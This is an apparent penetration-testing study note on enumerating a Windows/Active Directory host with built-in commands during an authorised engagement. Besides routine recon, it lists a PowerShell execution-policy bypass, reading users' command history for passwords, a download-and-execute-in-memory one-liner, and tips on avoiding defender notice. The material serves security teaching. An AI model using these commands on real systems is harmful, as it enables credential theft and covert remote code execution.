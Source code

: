 # Living Off the Land
## Scenario
- Let's assume our client has asked us to test their AD environment from a managed host with no internet access, and all efforts to load tools onto it have failed.
- Our client wants to see what types of enumeration are possible, so we'll have to resort to "living off the land" or only using tools and commands native to Windows/Active Directory.
## Env Commands For Host & Network Recon
#### Basic Enumeration Commands

| **Command**                                             | **Result**                                                                                 |
| ------------------------------------------------------- | ------------------------------------------------------------------------------------------ |
| `hostname`                                              | Prints the PC's Name                                                                       |
| `[System.Environment]::OSVersion.Version`               | Prints out the OS version and revision level                                               |
| `wmic qfe get Caption,Description,HotFixID,InstalledOn` | Prints the patches and hotfixes applied to the host                                        |
| `ipconfig /all`                                         | Prints out network adapter state and configurations                                        |
| `set`                                                   | Displays a list of environment variables for the current session (ran from CMD-prompt)     |
| `echo %USERDOMAIN%`                                     | Displays the domain name to which the host belongs (ran from CMD-prompt)                   |
| `echo %logonserver%`                                    | Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt) |
- We can cover the information above with one command [systeminfo](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/systeminfo).
- The `systeminfo` command, will print a summary of the host's information for us in one tidy output. Running one command will generate fewer logs, meaning less of a chance we are noticed on the host by a defender.
## Harnessing PowerShell
- Let's look at a few of the ways PowerShell can help us.

| **Cmd-Let**                                                                                                                | **Description**                                                                                                                                                                                                                               |
| -------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Get-Module`                                                                                                               | Lists available modules loaded for use.                                                                                                                                                                                                       |
| `Get-ExecutionPolicy -List`                                                                                                | Will print the [execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2) settings for each scope on a host.                                         |
| `Set-ExecutionPolicy Bypass -Scope Process`                                                                                | This will change the policy for our current process using the `-Scope` parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host. |
| `Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`          | With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.                       |
| `Get-ChildItem Env: \| ft Key,Value`                                                                                       | Return environment values such as key paths, users, computer information, etc.                                                                                                                                                                |
| `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"` | This is a quick and easy way to download a file from the web using PowerShell and call it from memory.                                                                                                                                        |
### Checking Defenses
- The next few commands utilize the [netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts) and [sc](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-query) utilities to help us get a feel for the state of the host when it comes to Windows Firewall settings and to check the status of Windows Defender.
#### Firewall Checks
```powershell-session
PS C:\htb> netsh advfirewall show allprofiles
```
#### Windows Defender Check (from CMD.exe)
```cmd-session
C:\htb> sc query windefend
```